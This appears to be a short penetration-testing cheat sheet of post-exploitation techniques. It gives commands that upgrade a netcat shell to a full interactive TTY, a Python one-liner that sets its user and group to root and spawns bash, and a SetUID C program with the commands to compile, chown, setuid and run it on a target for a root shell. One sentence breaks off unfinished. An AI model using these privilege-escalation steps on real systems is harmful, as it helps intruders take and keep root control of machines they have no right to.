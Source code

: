 # Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

`python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>`

## SetUID Python

If you can get 

python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'

## SetUID C Code

If you need a basic C program that you can set the SetUID bit, use this:

`#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }`

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

`gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid`

